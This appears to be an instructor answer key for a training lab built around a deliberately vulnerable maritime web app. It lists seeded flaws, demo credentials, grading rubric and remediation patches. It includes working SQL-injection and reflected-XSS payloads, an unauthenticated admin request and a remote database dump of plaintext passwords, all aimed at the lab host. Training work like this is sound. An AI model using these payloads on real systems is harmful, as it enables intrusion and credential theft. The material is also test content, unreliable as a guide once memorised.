






# Scenario 01 — PortPilot Maritime

## Instructor guide & answer key

This document is **not** for trainees. It contains the seeded vulnerabilities, expected CyberFort findings, **what a successful deliverable looks like**, scoring rubric, and remediation patches.

---

## 1. Scenario topology



Both VMs must be on the same subnet. CyberFort calls `<VM2-IP>:8080` and `<VM2-IP>:5432`. The trainee SSHes into VM2 only to run `docker compose up -d` and to zip the source tree for upload to the Semgrep / OSV scanners.

---

## 2. Seeded vulnerabilities (the answer key)

| # | Vulnerability | Where | Detected by | CyberFort CRA objective(s) |
|---|---------------|-------|------------|----------------------------|
| 1 | PostgreSQL bound to `0.0.0.0:5432` with weak password | `docker-compose.yml` (port binding) + `db/init.sql` | **Nmap** | Annex I **3a**, **3h** |
| 2 | SQL injection — auth bypass on `/login` | `app/portpilot/app.py`, `login()` (f-string SQL) | **ZAP** active scan + **Semgrep** SAST | Annex I **3b**, **2** |
| 3 | Reflected XSS on `/vessels` | `app/portpilot/app.py`, `vessels()` (uses `Markup()`) | **ZAP** + **Semgrep** | Annex I **3d**, **2** |
| 4 | Broken access control on `/admin/manifests` | `app/portpilot/app.py`, `admin_manifests()` (no auth check) | **ZAP** spider, manual | Annex I **3b**, **3c**, **3j** |
| 5 | Hardcoded DB password & API key | `app/portpilot/config.py` | **Semgrep** `hardcoded-password` rule | Annex I **3d**, **3a** |
| 6 | Flask debug mode (`debug=True`) | `app/portpilot/app.py` (last line) + `run.py` | **Semgrep** `flask-debug-true` | Annex I **3a** |
| 7 | Outdated dependencies — Flask 2.0.1, Werkzeug 2.0.1, Jinja2 3.0.0, requests 2.25.0 | `app/requirements.txt` | **OSV** | Annex I **2**, **3k** &middot; Vuln-Handling **1** |

> Conformity question coverage: the eleven questions trainees are guided to answer in Step 6 of the handbook are #13, 14, 16, 20, 21, 22, 23, 25, 32, 38, 39 of the seeded CRA conformity question pool (`frameworks_seed.py`, lines 37–90). The platform displays them as a flat numbered list; the order column in `FrameworkQuestion` controls position.

The deliberate `time.sleep` retry loop in `get_db()` is **not** a vulnerability — it exists to handle Postgres boot latency.

---

## 3. Demonstration credentials

Seeded users in `db/init.sql`:

| Username  | Password         | Role     |
|-----------|------------------|----------|
| admin     | `Admin123`       | admin    |
| aoswald   | `columbia2024`   | operator |
| mioannou  | `bolton!secure`  | operator |
| viewer    | `viewer`         | viewer   |

Postgres superuser is `portpilot_app` / `PortPilot2024!`.

(The names mirror partner organisations from the CYBERFORT proposal so the scenario reads as plausible.)

---

## 4. Verification commands &mdash; with expected output

Run these against a live PortPilot stack to confirm each finding before grading the trainee.

### 4.1 SQL injection — login bypass

```bash
curl -i -X POST http://<VM2>:8080/login \
  -d "username=admin' OR '1'='1' -- " \
  -d "password=x"
```

**Expected output (key lines):**

```text
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Location: http://<VM2>:8080/dashboard
Set-Cookie: session=...; HttpOnly; Path=/
Server: Werkzeug/2.0.1 Python/3.9.x
```

The `302 → /dashboard` plus a `Set-Cookie` confirms an authenticated session was created without valid credentials.

### 4.2 Reflected XSS — `/vessels?q=`

```bash
# log in first to get a session cookie, then GET the payload
curl -s -c /tmp/c -X POST -d "username=admin' OR '1'='1' -- " -d "password=x" \
  http://<VM2>:8080/login > /dev/null
curl -s -b /tmp/c 'http://<VM2>:8080/vessels?q=<script>alert(1)</script>' \
  | grep -E 'Results for'
```

**Expected output:**

```html
<h2>Results for: <script>alert(1)</script></h2>
```

The unescaped `<script>` tag in the response confirms the application renders user input as raw HTML.

### 4.3 Broken access control — `/admin/manifests`

```bash
# NOTE: no cookie / no session
curl -s -o /tmp/admin.html -w "HTTP %{http_code}\n" http://<VM2>:8080/admin/manifests
grep -oE 'CLASSIFIED|CONFIDENTIAL|All manifests' /tmp/admin.html
```

**Expected output:**

```text
HTTP 200
All manifests
CLASSIFIED
CONFIDENTIAL
```

An anonymous client receives the admin manifest list including the rows seeded with `CLASSIFIED` (row 4) and `CONFIDENTIAL` (row 6).

### 4.4 PostgreSQL exposed — external connection with weak credentials

```bash
PGPASSWORD='PortPilot2024!' psql -h <VM2> -p 5432 -U portpilot_app -d portpilot \
  -c "SELECT username, password, role FROM users;"
```

**Expected output:**

```text
 username |   password    |   role
----------+---------------+----------
 admin    | Admin123      | admin
 aoswald  | columbia2024  | operator
 mioannou | bolton!secure | operator
 viewer   | viewer        | viewer
(4 rows)
```

The successful query — across the network, with a weak production password — confirms both the port exposure (Nmap finding) and the plaintext password storage.

---

## 5. What each exploit looks like

Use these reference screenshots to verify trainee submissions or to walk learners through the finding during a debrief.

### 5.1 PortPilot sign-in page (clean baseline)



### 5.2 SQL-injection payload pasted into the login form



### 5.3 Dashboard reached after the SQLi bypass (admin role)


### 5.4 Reflected XSS on `/vessels?q=`



### 5.5 `/admin/manifests` reachable anonymously, leaking confidential cargo notes



---

## 6. What a successful deliverable looks like in CyberFort

A trainee who finishes the scenario well will produce the following two artefacts inside CyberFort. Use them as your grading anchors.

### 6.1 The risk register populated with PortPilot findings

The Risk Registry tab should contain **at least six** new risks scoped to `PortPilot 0.9.2`.


### 6.2 The CRA conformity assessment, answered

The `PortPilot CRA Conformity` assessment should show progress on the eleven target conformity questions (each marked `No` / `Partially` with an evidence description attached).



---

## 7. Risk-register expected entries (detailed)

After the trainee finishes the scenario the register should contain **at least 6 risks** linked to PortPilot 0.9.2:

1. Database exposed on public interface — Likelihood H, Impact H
2. SQL-injection auth bypass on /login — Likelihood H, Impact H
3. Reflected XSS on /vessels — Likelihood M, Impact M
4. Broken access control on /admin/manifests — Likelihood H, Impact H
5. Hardcoded credentials in source — Likelihood M, Impact H
6. Vulnerable Werkzeug dependency (GHSA-2g68-c3qc-8985) — Likelihood H, Impact M

Trainees who file all six and produce the PDF report score full marks. The XSS finding is the most commonly missed.

---

## 8. Scoring rubric (100 pts)

| Activity | Points |
|----------|--------|
| Product registered correctly | 10 |
| Nmap finding identified and converted to risk | 15 |
| ZAP findings — SQLi + XSS + broken access (5 pts each) | 15 |
| Semgrep finding — hardcoded secret | 15 |
| OSV finding — at least one transitive advisory filed | 10 |
| CRA assessment completed against Annex I | 20 |
| PDF report generated | 10 |
| Use of AI assistant at least once | 5 |

Pass threshold: 70.

---

## 9. Remediation patches (for stretch-goal verification)

The patches below are the "correct answer" for each vulnerability. Apply them on VM2 and rerun the relevant scan to demonstrate a clean run.

### Patch 1 — Parameterise the SQL query

```python
# app/portpilot/app.py — login()
cur.execute(
    "SELECT id, username, role FROM users "
    "WHERE username = %s AND password = %s",
    (username, password),
)
```

(Also: hash the password with `werkzeug.security.check_password_hash` against a stored hash. Out of scope for this scenario.)

### Patch 2 — Remove `Markup()` from search

```python
# app/portpilot/app.py — vessels()
heading = f"Results for: {query_term}"  # Jinja2 autoescaping handles the rest
```

And in `vessels.html`:

```jinja
<h2>{{ heading }}</h2>
```

### Patch 3 — Add auth check on admin views

```python
# app/portpilot/app.py — admin_manifests()
if "user" not in session or session["user"]["role"] != "admin":
    return redirect(url_for("login"))
```

### Patch 4 — Move secrets to environment variables

```python
# app/portpilot/config.py
SECRET_KEY = os.environ["SECRET_KEY"]
DB_PASSWORD = os.environ["DB_PASSWORD"]
PORT_AUTHORITY_API_KEY = os.environ["PORT_AUTHORITY_API_KEY"]
```

### Patch 5 — Turn off debug, drop port binding

In `app/portpilot/app.py` last block, replace `debug=True` with `debug=False`. In `docker-compose.yml`, remove the `ports: ["5432:5432"]` block from the `db` service so PostgreSQL stays on the internal network.

### Patch 6 — Bump dependencies

```
Flask==3.0.3
Werkzeug==3.0.3
Jinja2==3.1.4
itsdangerous==2.2.0
MarkupSafe==2.1.5
requests==2.32.3
```

---

## 10. Troubleshooting

| Symptom | Cause | Fix |
|---------|-------|-----|
| `portpilot_app` container restarting | Postgres not yet healthy | Wait 10s; healthcheck has 20 retries. |
| ZAP scan returns 0 alerts | ZAP container not reachable from CyberFort backend | On VM1, `docker logs zap` — verify port 8010 listens. |
| Semgrep upload rejected | Tarball >50 MB | Repack without `node_modules` / `__pycache__` (`tar --exclude=__pycache__`). |
| OSV scan shows 0 advisories | `requirements.txt` not present in tarball root | Upload `requirements.txt` directly, not the whole tarball. |
| Login still fails after SQLi payload | Trailing space missing after `--` | The space is required to terminate the SQL comment. |

---

## 11. Reset between sessions

To wipe the lab back to factory-fresh:

```bash
cd /srv/portpilot
docker compose down -v
docker compose up -d --build
```

The `-v` flag drops the PostgreSQL volume so the init.sql re-runs.
